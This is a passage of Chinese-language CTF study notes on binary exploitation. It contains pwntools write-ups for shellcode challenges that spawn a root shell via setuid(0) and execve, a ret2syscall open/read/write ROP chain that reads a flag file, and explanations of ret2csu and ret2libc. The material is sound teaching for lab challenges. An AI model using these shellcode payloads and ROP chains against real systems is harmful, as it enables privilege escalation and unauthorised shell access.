> C源码：[shellcode_ch2](./2_解析ROP（返回导向编程）.assets/shellcode_ch2.c)

wp：

```python
from pwn import *
import os
os.chdir("/challenge")

context.arch = 'amd64'

file_name = './1-1-2'

io = process(file_name)

str = io.recvuntil("from stdin.\n")
print(str.decode('utf-8'))

payload = b'\x90'*0x800 + asm(shellcraft.amd64.linux.setuid(0) + shellcraft.amd64.sh())
# payload = asm(shellcraft.i386.linux.setuid(0) + shellcraft.amd64.sh())

io.sendline(payload)

io.interactive()
```

#### ch3：

> 二进制文件：[shellcode_ch3](./2_解析ROP（返回导向编程）.assets/shellcode_ch3)
> C源码：[shellcode_ch3](./2_解析ROP（返回导向编程）.assets/shellcode_ch3.c)

wp：

```python
from pwn import *
import os
os.chdir("/challenge")

context.arch = 'amd64'

file_name = './1-1-3'

io = process(file_name)

str = io.recvuntil("from stdin.\n")
print(str.decode('utf-8'))

shellcode = asm(shellcraft.sh())

payload = asm(shellcraft.amd64.linux.setuid(0)) + shellcode
# payload = asm(shellcraft.i386.linux.setuid(0) + shellcraft.amd64.sh())

io.sendline(payload)

io.interactive()
```

#### ch4：

> 二进制文件：[shellcode_ch4](./2_解析ROP（返回导向编程）.assets/shellcode_ch4)
> C源码：[shellcode_ch4](./2_解析ROP（返回导向编程）.assets/shellcode_ch4.c)

wp：

```python
from pwn import *
import os
os.chdir("/challenge")

context.arch = 'amd64'

file_name = './1-1-4'

io = process(file_name)

str = io.recvuntil("from stdin.\n")
print(str.decode('utf-8'))

# 构造 setuid(0) 的 shellcode
setuid0 = asm("""
    xor rax, rax                ;清除 rax
    mov al, 105                 ;系统调用号 105 - setuid
    xor rdi, rdi                ;设置 rdi = 0 (uid 0)

    ;动态写入 syscall 指令
    lea rcx, [rip+syscall_instr] ;指向即将形成 syscall 的位置
    mov byte ptr [rcx], 0x0f     ;写入前一半 0x0f
    mov byte ptr [rcx+1], 0x05   ;写入后一半 0x05

syscall_instr:
    nop                         ;此处将变为 syscall
    jmp syscall_instr           ;跳到 syscall

""")

# 构造 shellcode
shellcode = asm("""
    xor rax, rax                ;Clear rax
    mov al, 59                  ;Syscall number for execve
    lea rdi, [rip+binsh_str]    ;Address of "/bin/sh" into rdi
    xor rsi, rsi                ;rsi = NULL (argv)
    xor rdx, rdx                ;rdx = NULL (envp)

    ;动态写入 syscall 指令
    lea rcx, [rip+syscall_instr] ;指向即将形成 syscall 的位置
    mov byte ptr [rcx], 0x0f     ;写入前一半 0x0f
    mov byte ptr [rcx+1], 0x05   ;写入后一半 0x05

syscall_instr:
    nop                         ;此处将变为 syscall
    jmp syscall_instr           ;跳回 syscall

binsh_str:
    .ascii "/bin/sh"           ;Shell command string
    .byte 0x00
""")

# shellcode = asm(shellcraft.sh())
print(shellcode)


payload = setuid0 + shellcode
# payload = asm(shellcraft.i386.linux.setuid(0) + shellcraft.amd64.sh())

io.sendline(payload)

io.interactive()
```


### 后续操作和思想与ret2text相同，利用函数调用栈的相关知识攻击即可。

------


## ==*`ret2syscall`==

### x86(32位)与x86-64(64位)的函数调用栈：


#### 接下来我们对于这一简单的程序来进行讲解：


经过编译并使用IDA反编译便可得到其汇编代码，gdb调试便可得知其工作原理：


### 系统调用所需环境(32位)

| %eax    | System call | %ebx                 | %ecx                   | %edx                     |
| ------- | ----------- | -------------------- | ---------------------- | ------------------------ |
| 11/0x0b | execve      | const char *filename | const char *const argv | const char* const envp[] |

==**shellcode的参数和execve调用应为：**==

- ==**eax = 0x0b**==

- ==**ebx指向"/bin/sh"**==

- ==**ecx = 0x0**==

- ==**edx = 0x0**==

- ==**execve("/bin/sh", 0, 0);**==

  

1. 计算从写入位置到retaddr需要填充多少个字节的垃圾数据：

   利用pwndbg:

   计算0xffffd098-0xffffd20c：

   得需要填充108+4=112字节的数据。

2. 利用ROPgadget找到类似于pop_return的所有指令，利用这些指令及溢出内容为寄存器eax,ebx,ecx,edx赋值，实现系统调用所需的环境。

   ```shell
   ROPgadget --binary <binary file name> --only "pop|ret" | grep eax/ebx/ecx/edx
   ROPgadget --binary <binary file name> --only "int"
   ```

   比如找到的是如下的一些指令：

   

   

   

3. 找到./bin/sh的地址：

   - 用IDA pro：`shift+F12` 获得字符串窗口，`CTRL+f` 打开查找窗口，输入要查找的内容：

     双击进入查看地址即可！

   - 命令行中依次输入：

     ```shell
     python3
     from pwn import *
     elf = ELF("./filename")
     hex(next(elf.search(b"/bin/sh")))
     ```
   
4. 画出此时函数栈中需要溢出的数据图：

5. 得到payload：


### 系统调用所需环境(64位)

| %rax    | System call | %rdi                 | %rsi                   | %rdx                     |
| ------- | ----------- | -------------------- | ---------------------- | ------------------------ |
| 59/0x3b | execve      | const char *filename | const char *const argv | const char* const envp[] |

==**shellcode的参数和execve调用应为：**==

- ==**rax = 0x3b**==
- ==**rdi指向"/bin/sh"**==
- ==**rsi = 0x0**==
- ==**rdx = 0x0**==
- ==**execve("/bin/sh", 0, 0);**==


**在这里要注意：64位系统在传参时与32位系统有所不同：**

- 在32位系统中，所有的参数会以逆序的方式压入栈中，这一点在之前已有所提及；

- 在64位系统中，参数同样会以逆序的方式入栈，但不同的是，对于从前到后的6个参数，程序会将其压入6个特定的寄存器中，这六个寄存器分别为：

  ```shell
  rdi	 rsi  rdx  rcx  r8  r9
  ```

  如果还有其他的参数，再将这些参数逆序压入栈中。

  - 如对于函数：

    ```c
    f(con1,con2,con3,con4,con5,con6,con7,con8,con9)
    ```

    程序会先将：con1,con2,...,con6依次存放在rdi，rsi，rdx，rcx，r8，r9中，对于剩下的con7，con8，con9，程序先将con9压入栈中，然后再压入con8，最后压入con7，这样逆序的操作与32位系统是一样的！

### system形式的shellcode

1. #### system与execve的区别

   - system是glibc中的函数，用shell来调用程序=fork+exec+waitpid，而exec是直接让你的程序代替用来的程序运行。

   - system 是在单独的进程中执行命令，完了还会回到你的程序中。而exec函数是直接在你的进程中执行新的程序，新的程序会把你的程序覆盖，除非调用出错，否则你再也回不到exec后面的代码，就是说你的程序就变成了exec调用的那个程序了。

     看一下，下面的例子.

     - 例子1

       system("your_program");

       printf("You can see me! ");

     - 例子2

       exec("your_program");
       printf("You can't see me! ");

     在例子1中，在你的程序执行完毕以后，会执行printf语句。
     在例子2中，由于exec将程序your_program代替了本身，因此程序不再会执行printf语句。

2. #### system shellcode

   以下两种形式均可：

   1. system(“/bin/sh”)
   2. system(“sh”)

   ```
   第一种是使用/bin下的sh，第二种是通过环境变量找sh。
   ```

   对于32位和64位，要遵循各自的调用约定，32位时摆在栈空间，64位时放在rdi寄存器。
   
   - #### 由上可知，如果找不到直接的/bin/sh，但是有其中的一部分，我们可以：
   
     1. ==调用一个read函数，来自己输入“/bin/sh”==
     2. ==只用sh字符串也可==
   
3. #### 一次与多次系统调用：

   1. 只需要一次系统调用，可以用这种命令：

      ```shell
      ROPgadget --binary <filename> --only 'int 0x80'
      ```

   2. 多次系统调用，就只能用这个命令来找 int 0x80 ：

      ```shell
      ROPgadget --binary <filename> --opcode cd80c3
      ```

### `CTFDemo-syscall_orw`

> 二进制文件：[syscall_orw](./2_解析ROP（返回导向编程）.assets/ret2syscall)

#### 思路：

此题没有给出动态链接库`libc`的版本，因此只能从这个`ELF`二进制可执行文件中寻找可用的`gadget`：
先看有没有系统调用：`ROPgadget --binary /challenge/1-3-3 --only "syscall"`：
有，那就可以通过执行系统调用相关函数来拿`flag`；

执行系统调用需要几个关键的寄存器：

- `rax`
- `rdi`
- `rsi`
- `rdx`

看看有没有与这几个寄存器相关的`gadget`：`ROPgadget --binary /challenge/1-3-3 --only "pop|ret" | grep <Reg>`：

OK，那就可以使用`ret2syscall`解题了。

#### wp:

```python
from pwn import * 
local_file  = '/challenge/1-3-3'
select = 0
if select == 0:
    r = process(local_file)
    #process(['./ld-2.23.so','./pwn'], env = {'LD_PRELOAD' : './libc-2.31.so'})
elif select == 1:
    r = remote('node4.buuoj.cn',25904 )
    libc = ELF(remote_libc)
elf = ELF(local_file)
context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :r.send(data) 
sa      = lambda delim,data         :r.sendafter(delim, data)
sl      = lambda data               :r.sendline(data)
sla     = lambda delim,data         :r.sendlineafter(delim, data)
sea     = lambda delim,data         :r.sendafter(delim, data)
rc      = lambda numb=4096          :r.recv(numb)
rl      = lambda                    :r.recvline()
ru      = lambda delims 			:r.recvuntil(delims)
uu32    = lambda data               :u32(data.ljust(4, b'\0'))
uu64    = lambda data               :u64(data.ljust(8, b'\0'))
info    = lambda tag, addr        :r.info(tag + ': {:#x}'.format(addr))
#------------------------
def debug(cmd=''):
     gdb.attach(r,cmd)
     pause()
#------------------------
syscall_ret=0x4026b6
pop_rax_ret=0x402697
pop_rdi_ret =0x4026c6
pop_rsi_ret=0x4026ae
pop_rdx_ret=0x4026a7

flag_addr=0x0405078
# payload=flat("a"*0x68,pop_rdi_ret,elf.got['puts'],elf.sym['puts'],elf.sym["_start"])
# se(payload)
# libc_base=uu64(ru('\x7f')[-6:])-0x84420
# info("libc_base",libc_base)
# payload2=flat("a"*0x68,ret,pop_rdi_ret,libc_base+0x1b45bd,libc_base+0x52290)
# se(payload2)
# se(b"./flag\x00\x00\x00")
# se(flat("a"*0x68,ret,pop_rdi_ret,libc_base+0x1b45bd,libc_base+0x52290))

payload2=flat("a"*0x68, pop_rdi_ret,0, pop_rsi_ret,flag_addr, pop_rdx_ret,0x8, pop_rax_ret,0, syscall_ret,elf.sym['_start'])
se(payload2)
se(b"/flag\x00\x00\x00")

orw =flat(pop_rdi_ret,flag_addr, pop_rsi_ret,0, pop_rax_ret,2, syscall_ret)
orw+=flat(pop_rdi_ret,3, pop_rsi_ret,flag_addr, pop_rdx_ret,0x50, pop_rax_ret,0, syscall_ret)
orw+=flat(pop_rdi_ret,1, pop_rsi_ret,flag_addr, pop_rdx_ret,0x50, pop_rax_ret,1, syscall_ret)
payload3=flat("a"*0x68,orw)
se(payload3)
#debug()
r.interactive()
```


### **<u>==`ret2csu`==</u>**

- ##### 		这种攻击手段其实是为我们通过Rop找可用的gadget提供了另外一种途径，很多教程中把它归结为一种单独的攻击方式，但其实这种攻击方式类似于组合拳中的一招一式，是可以和其他攻击手段结合在一起使用的！！！


1. #### ***<u>识别：</u>***

   能否使用这种攻击方式的识别也很简单，通过IDA反编译后看是否有这样一个函数即可：

   ```shell
   __libc_csu_init Gadgets for x64
   ```

   

   #### 如上便是我们主要用到的gadget。

   

   这个位于text段的函数里含有大量我们可用的Gadget，因此可以丰富Rop攻击的手段。
   
2. #### ***<u>解析：</u>***

   ==可以看到，对于64位程序，我们期望主要控制函数的前三个参数，也就是寄存器：rdi、rsi、rdx。这样的话，我们通过观察上面可用gadget，我们需要先利用下面的这部分gadget给 rbx、rbp、r12、r13、r14、r15寄存器赋值：==

   ##### gadget1：

   

   ##### gadget1可以将你构造的栈中的值一个一个顺序存到rbx,rbp,r12,r13,r14,r15寄存器中。 需要注意的是，可能随着环境的不同，r13,r14,r15的顺序也会有所改变。

   ==然后再使用这些gadget实现对存放函数前三个参数的目标寄存器的间接赋值：==

   ##### gadget2：

   

   ##### 通过gadgets1中最后的ret，使程序流程走gadget2，这样可以：

   1. ```assembly
      mov rdx, r13
      mov rsi, r14
      mov edi, r15d
      ```

      ##### 将存储在r13的值赋给rdx，存储在r14的值赋给rsi，存储在r15的值赋给edi，此时rdi的高32位寄存器中值为0，所以我们也可以控制rdi的值。 (貌似这里edi寄存器其实就是rdi寄存器的低32位，所以在这里控制edi相当于控制rdi)

   2. ```assembly
      call ds:(_frame_dummy_init_array_entry-600840h)[r12+rbx*8]
      ```

      ##### call指令跳转到r12寄存器存储的位置处（在gadgets1中置rbx=0，这么做也是不给自己找麻烦）

   3. ```assembly
      add rbx, 1
      ```

      ##### 给rbx寄存器的值+1

   4. ```assembly
      cmp rbx, rbp
      jnz short loc_400690
      ```

      ##### 判断是否与rbp相等，否则重新执行gadgets2，这里我们为了不重复执行，将rbp置为1。

   ==这段gadgets2走完之后，顺序往下走汇编码，又会走到gadgets1，所以我们在栈中需要设7*8=56个padding字符，使栈不会空，然后设置特定的ret地址。 重新走gadgets1时，会把rbx、rbp、r12、r13、r14、r15六个寄存器重新设值，但这六个寄存器对我们来说已经没用了，所以可以为任意的padding。我们的目的仅仅是要控制rdi、rsi、rdx三个寄存器来存放函数的参数。 需要注意的是，rdi为第一个参数的存放寄存器，rsi为第二个参数，rdx为第三个参数。==

3. #### ***<u>注意：</u>***

   这里的r12寄存器是重点：因为我们不可避免的要经过这个调用：

   ```assembly
   call ds:(_frame_dummy_init_array_entry-600840h)[r12+rbx*8]
   ```

   ##### 这里的操作是会解引用的。因此，把真正的函数地址放进去肯定是不能解引用出函数地址的，然后就是，想着什么地方的地址解引用后能得到一个函数的地址，这里就自然地想到的.got表中存在的函数：

   ==在实际做题中，有时需要通过此路径跳转到下一步所需执行的函数，有时也需要考虑跳过这个调用。==

   1. 当所需函数在.got表中存在时，就可以通过给r12寄存器赋值elf.got["函数名"]，进行跳转

   2. 当所需函数在.got表中不存在时，我们就需要根据实际情况跳过该call的调用。

      这里可以用__init_array_start函数的指针来跳过call。*__init_array_start*函数是ELF程序的一个初始化函数，运行它不会对栈空间造成影响，可以说是用于跳过call指令的最佳选择。

      ##### 这个函数的地址怎么找捏？

      - 下面命令可以查看程序的符号表

        ```shell
        readelf -Ws <程序名> | grep "init"
        ```

        

      ==**但是**==，这样的调用方法也会有缺点，那就是等到跳转到vul函数空间时，rdi和rsi寄存器中的值已经被改变了，但rdx寄存器中保留的第三个参数已经被我们控制。也就是说我们还需要找gadget重新给这两个寄存器赋值，进而控制前两个参数，不过最麻烦的第三个参数解决了，别的应该都不是什么问题。

4. #### ***<u>==__libc_csu_init的其他形式==：</u>***

   有时会遇到IDA反编译出不同的gadget形式：

   在这里我们可以看到：gadget2的形式并没有变化，但gadget1的形式有所改变，由pop变成了move。为了搞清楚这段汇编代码的工作原理以及这样的改变对我们构造payload的影响，我们采用gdb进行如下调试：

   1. 设置断点并运行至溢出位置：

   2. 为了查看函数跳转后rsp的实际位置，我们先将payload填充到vulnerable_function的ret_addr处，同时为了使用ret2csu，我们在写payload时将vulnerable_function的ret_addr填写为gadget1进入地址：

      ```python
      first_gadget = gadget1_addr
      payload = b'a' * (0x80+8) + p64(first_gadget)
      print(payload)
      ```
   
      进而输出这段payload的机器码。
   
   3. 我们将输出的payload的机器码填充进去，继续步进：

      可以看到：程序显示收到了段错误。这是正常的，因为本身我们就进行了溢出。

      同时，DISASM模块显示我们已经执行到了ret指令；

   4. 输入return，使得程序返回到我们的gadget后，可以看到我们的栈顶指针指向了ret_addr起始位置的后8个字节的位置，这与我们所学习的函数调用栈的工作方式是相吻合的。

      那么现在函数调用栈就执行到了如下位置：

   5. 为了方便我们进一步的调试，我们重新gdb调试该程序，并将断点设置在gadget1的位置：

      之后让程序run起来：

      由此可以看出，执行完ret_addr后，程序会先将rsp比高8个字节的地址起存放的数据放在rbx寄存器里，再将比rsp高0x10=16个字节起存放的数据放在rbp寄存器里，然后以此类推.......由此我们可以看出：在payload写完ret_addr之后，我们需要先存放8字节的垃圾数据，然后在ret_addr末尾起的第9--16字节的位置填充我们将要放在rbx中的数据，在ret_addr末尾起的第17--24字节的位置填充我们将要放在rbp中的数据......等到我们在从第0x30+1=49--56字节填入我们想要在r15中放入的数据后，程序会执行：

      ```assembly
      add rsp, 0x38
      ```

      自动为rsp提升0x38=56个字节，这时就来到了我们填完在r15中存放的数据后的地方，从而继续执行ret操作，也就是我们要填返回地址的地方。妙啊！！！

   ##### 由此我们看出，这种形式的__libc_csu_init对我们构造payload相较于之前而言没有任何影响，所以还是一样的payload！！！

[ret2csu：万能gadget实现传参 - -Qfrost-](http://www.qfrost.com/CTF/万能gadget/)

[(29条消息) 中级ROP之ret2csu_至臻求学，胸怀云月-CSDN博客](https://blog.csdn.net/AcSuccess/article/details/104448463)


------


## ==*`ret2libc`==

### 平衡栈：

利用溢出写入并执行多个函数时，需要不断使用pop_ret这样的gadget来平衡栈，进而达到目的。


### 动态链接的过程：


- ### 用一个实例来看一下：

  

  1. 将这两段c代码通过如下命令编译为可执行文件func.ELF2：

     

  2. 我们通过gdb调试查看可执行文件func.ELF2第一次调用func.c生成的共享链接库中func函数时的汇编代码：
     

     1. ##### 可以看到，执行call指令会进入func@plt；
     
     2. ##### 第一条jmp指令跳转到 `GOT`（Global Offset Table）表中的对应条目（即 `func@got.plt`），这时该位置保存的还是第二条指令的地址，于是执行第二条指令push，将对应的0x1（func在.rel.plt中的下标）压栈，然后进入PLT[0]；
     
     3. ##### PLT[0]先将GOT[1]压栈，然后调用GOT[2]，也就是动态链接器的_dl_runtime_resolve()函数，完成符号解析和重定位工作，并将func()的真实地址填入`func@got.plt`，也就是GOT[4]，最后才把控制权交给func()；
     
     4. ##### 延迟绑定完成后，如果再调用func()，就可以由func@plt的第一条指令直接跳转到func@got.plt，将控制权交给func()。 

- 思考----->由上面的动态链接的过程我们可知：

  1. 只要在.plt表项中存在某函数的地址（使用elf.symbols["函数名"]即可找到），我们不需要知道这个函数的完整地址也可以成功的调用这个函数，因此找.plt表项从而调用函数是一种比找函数装载的直接地址更为简单且更加有效的方式！

  2. 对于.plt表项中没有的函数（==也就是这个函数程序并未直接调用过==），如果我们想调用它，必须通过泄露的手段让其在.got表项中的地址泄露出来（因为这是它的真实地址，从而我们便可以通过这个地址实现对它的成功调用）。==但是也有一个很重要的前提：由上表可知，这个函数必须是已经调用过至少一次的函数，否则在.got表中的地址是空的，即使得到也没有意义！==

     

### 本地调试须知：

- 如何查看本机的应用程序链接到的libc版本，即进行本地代码调试？

  ```shell
  ldd 程序名
  ```

  就可以查到该程序使用到的本地的动态链接库的文件包括其详细信息，还有其软链接路径！

  

- 通过软链接找到libc的详细版本号：

  ```shell
  file 软链接路径
  ```

  

  由上可知我们使用的libc的详细版本号（也就是题目会给的libc文件）为：libc-2.31.so。

参照：

[如何找到我的应用程序链接到的libc版本？ (qastack.cn)](https://qastack.cn/ubuntu/163138/how-do-i-find-what-version-of-libc-my-application-links-to)

或使用ret2libc3中所写的代码链接到本地使用的libc库亦可！！！
